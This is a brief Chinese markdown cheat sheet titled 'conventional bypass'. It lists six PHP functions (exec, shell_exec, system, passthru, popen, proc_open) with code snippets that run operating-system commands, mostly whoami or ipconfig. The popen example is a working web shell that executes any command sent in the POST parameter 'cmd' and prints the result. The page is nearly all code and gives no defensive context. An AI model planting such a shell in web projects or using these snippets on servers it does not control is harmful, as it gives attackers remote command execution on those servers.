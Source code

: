 ```yaml
---
title: 常规绕过
id: zhfly3462
---
```


# ***常规绕过***

**1\. exec**

```
<?php
  echo exec('whoami');?> 
```

**2\. shell_exec**

```
<?php
  echo shell_exec('whoami');?> 
```

**3\. system**

```
<?php
  system('whoami');?> 
```

**4\. passthru**

```
<?php
  passthru("whoami");?> 
```

**5\. popen**

```
<?php
$command=$_POST['cmd'];
$handle = popen($command , "r");
  while(!feof($handle))
  {     echo fread($handle, 1024);  //fread($handle, 1024);
  }  
  pclose($handle);?> 
```

**6\. proc_open**

```
<?php
  $command="ipconfig";
  $descriptorspec = array(1 => array("pipe", "w"));
  $handle = proc_open($command ,$descriptorspec , $pipes);
  while(!feof($pipes[1]))
  {     echo fread($pipes[1], 1024); //fgets($pipes[1],1024);
  }?> 
```
